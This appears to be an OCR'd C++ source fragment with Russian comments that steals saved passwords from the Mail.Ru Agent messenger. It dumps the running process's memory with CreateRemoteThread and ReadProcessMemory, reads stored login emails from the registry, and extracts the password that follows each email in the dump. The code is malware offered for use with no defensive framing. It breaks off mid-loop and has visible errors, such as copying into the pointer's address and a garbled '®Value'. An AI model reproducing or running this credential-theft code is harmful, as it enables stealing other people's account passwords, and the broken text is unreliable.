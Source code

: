 ```text
HKEY hKey; // Идентификатор ключа реестра
DWORD i,t, retCode, cValues = 256; // Необходимые промежуточные переменные
char regValue[MAX_PATH]; // Буфер для чтения ключа реестра
DWORD cchValue = 1024; // Размер буфера
HANDLE hProcess; // Хэндл процесса
char szEmail[MAX_PATH]; // Буфер для email-адреса
int iEmail; // Длина email-адреса
HMODULE hModule; // Хэндл модуля
MODULEINFO modinfo; // Структура, содержащая информацию о модуле
DWORD dwReaded; // Количество байт в дампе процесса
char szPass[128]; // Буфер для пароля
bool found; // Флаг найден/не найден пароль
char* pTmp; // Временный буфер
hProcess=GetProcess();
if (hProcess)
{
// Получаем хэндл модуля по хэндлу процесса,
// для чего временно создаем новый поток
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
(LPTHREAD_START_ROUTINE)GetModuleHandle, NULL, 0, NULL);
WaitForSingleObject(hThread, INFINITE);
GetExitCodeThread(hThread, (LPDWORD)&hModule);
CloseHandle(hThread);
// Получаем информацию о загруженном модуле
GetModuleInformation(hProcess,hModule,&modinfo,sizeof(MODULEINFO));
// Буфер для дампа
PBYTE pBuffer = new BYTE[modinfo.SizeOfImage];
// Читаем дамп
ReadProcessMemory(hProcess, modinfo.lpBaseOfDll, pBuffer,
modinfo.SizeOfImage, &dwReaded);
if (dwReaded>0)
{
// Открываем ключ реестра
if (RegOpenKeyEx(HKEY_CURRENT_USER,"Software\\Mail.Ru\\Agent
\\magent_logins",0,KEY_QUERY_VALUE,&hKey)==ERROR_SUCCESS)
{
for (t = 0, retCode = ERROR_SUCCESS; t < cValues; t++)
{
// Перебираем по очереди параметры ключа реестра для поиска email'ов в дампе
retCode = RegEnumValue(hKey, t, regValue, &cchValue, NULL, NULL, NULL, NULL);
if (retCode == ERROR_SUCCESS)
{
// Первые 4 байта имени параметра это номер, его пропускаем. Далее идет адрес.
lstrcpy(szEmail,(const char*)®Value[4]);
iEmail=lstrlen(szEmail);
// Выделяем буфер, в который будем заносить сравниваемые участки дампа
pTmp=(char*)LocalAlloc(0,iEmail);
found=FALSE;
// Двигаемся по дампу
for (i=0;i<dwReaded;i++)
{
if (found){i=dwReaded;} //Заканчиваем перебор
// Берем очередной участок дампа для сравнения
memcpy(&pTmp,&pBuffer[i],iEmail);
// Сравниваем
if (!memcmp(&pTmp,szEmail,iEmail))
{
// Через 4 байта после адреса находится пароль.
memcpy(szPass,&pBuffer[i+iEmail+4],sizeof(szPass));
// Пароль найден. Выводим результат.
cout << "[!!!]Found for : " << szEmail << "\tPassword: " << szPass;
found=TRUE;
}
```